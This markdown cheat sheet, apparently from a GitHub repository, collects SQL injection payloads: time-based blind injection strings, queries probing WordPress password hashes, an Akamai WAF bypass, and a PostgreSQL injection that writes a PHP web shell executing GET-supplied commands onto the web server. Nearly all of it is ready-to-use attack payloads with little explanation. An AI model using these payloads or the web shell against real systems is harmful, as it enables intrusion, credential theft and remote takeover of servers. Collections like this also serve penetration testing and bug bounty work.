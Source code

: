 # SQL Injection Payloads
## Time Based SQL Payloads
```sql
WAITFOR DELAY '0:0:5'
'XOR(if(now()=sysdate(),sleep(1*1),0))OR'
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
/**/WHEN(LENGTH(​version()​)=​10​)THEN(SLEEP(6*1))END
%2c(select*from(select(sleep(20)))a)
{{"sleep"%2c"13"})}${{"timeout"%2c"13"})
+UNION+SELECT+1,2,3,CONCAT(user(),version(),database()),5,6,7,8--+r0hack"}
{sleep(hexdec(dechex(13)))}${sleep(hexdec(dechex(13)))}
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'+(select*from(select(sleep(20)))a)+'
%20and%20(select%20*%20from%20(select(if(substring(user(),1,1)='p',sleep(5),1)))a)--%20 - true (sleeps 5 sec)
```
## Other SQL Injection Payloads
```sql
+OR+1=insert(1,1,1,1)--
+OR+1=replace(1,1,1)--
{`foo`/*bar*/(select+1)\}'
{`foo`/*bar*/(select%2b2)}
{`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
```
## Akami WAF Bypass
```sql
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

## You can use the PostgreSQL \g command in your SQLi to create a file on the server. 
```sql
' UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --
```
**Example**<br>
[![img](https://pbs.twimg.com/media/EpNcPxHW8AEP2v1?format=jpg&name=large)](https://twitter.com/bugbountynights/status/1338515958567227393?s=20)
